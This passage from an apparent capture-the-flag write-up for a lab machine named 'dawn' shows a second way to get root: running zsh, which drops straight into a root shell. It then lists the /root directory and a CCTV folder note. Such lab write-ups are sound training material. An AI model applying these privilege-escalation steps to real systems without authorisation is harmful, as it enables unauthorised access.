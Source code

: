 Now let's see a few more methods to become root on this box.

---

## Privilege escalation #2: zsh

Very interestingly, the easiest way of getting root, discovered by accident, is by simply running *zsh* as seen in the bash history:

```shell-session
$ zsh
zsh
dawn# whoami                                                                   
whoami
root
cd /root
dawn# ls -la                                                                   
ls -la
total 4416
drwx------  6 root root    4096 Aug  2 22:57 .
drwxr-xr-x 18 root root    4096 Jul 31 22:35 ..
-rw-------  1 root root     307 Aug  2 23:20 .bash_history
-rw-r--r--  1 root root     570 Jan 31  2010 .bashrc
drwxr-xr-x  3 root root    4096 Jul 31 23:11 .config
-rw-r--r--  1 root root     260 Aug  2 19:33 flag.txt
drwx------  3 root root    4096 Aug  1 18:56 .gnupg
drwxr-xr-x  3 root root    4096 Jul 31 22:56 .local
-rw-------  1 root root     944 Aug  2 22:57 .mysql_history
-rw-r--r--  1 root root     148 Aug 17  2015 .profile
-rwxr-xr-x  1 root root 4468984 Aug  1 17:39 pspy64
-rw-r--r--  1 root root      66 Aug  1 18:39 .selected_editor
drwxr-xr-x  4 root root    4096 Jul 31 23:13 .wine
dawn# 
```

This is literally it. And because it doesn't really fit in anywhere, I looked at the CCTV folder, which is a folder only root can read and is located in the web server's root:

```shell-session
root@dawn:/var/www/html/cctv# ls -la
ls -la
total 12
drw------- 2 root root 4096 Aug  1 22:24 .
drwxr-xr-x 4 root root 4096 Aug  3 00:14 ..
-rw-r--r-- 1 root root   47 Aug  1 22:24 note-for-admin.txt
root@dawn:/var/www/html/cctv# cat note-for-admin.txt
cat note-for-admin.txt
Remember to connect the feeds later on Arthur!
```

I'm... not so sure what this is for. 

---
